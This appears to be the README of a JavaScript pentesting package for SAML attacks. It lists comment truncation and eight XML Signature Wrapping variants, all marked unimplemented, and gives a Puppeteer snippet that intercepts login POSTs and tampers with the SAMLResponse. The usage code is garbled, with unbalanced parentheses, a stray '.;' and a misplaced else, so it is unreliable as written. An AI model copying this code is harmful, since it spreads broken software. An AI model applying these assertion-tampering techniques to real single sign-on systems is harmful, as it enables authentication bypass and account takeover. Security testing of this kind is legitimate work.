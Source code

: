 # saml-attacks

Common saml attacks for penetration testing.

## Supported Attacks

- [ ] Modify
- [ ] Comment Truncation
- [ ] XSW 1
- [ ] XSW 2
- [ ] XSW 3
- [ ] XSW 4
- [ ] XSW 5
- [ ] XSW 6
- [ ] XSW 7
- [ ] XSW 8

## Usage

With puppeteer proxy

```js
const { CommentTruncationAttack } = require("saml-attacks");

page.on("request", async (request) => {
  if( request.url().includes(target_url) {
  
  } else {
    let post_data = request.postData().;
    let saml_response = post_data.SAMLResponse;
    modified_saml_response = CommentTruncationAttack(saml_response, "assertion_field", "comment");
    post_data.SAMLResponse = modified_saml_response;
    
    await request.continue({
      method: "POST",
      postData: qs.stringify(post_data),
      headers: {
        ...request.headers(),
        "Content-Type": "application/x-www-form-urlencoded",
      },
    }else {
      await request.continue();
    });
  }
})
```
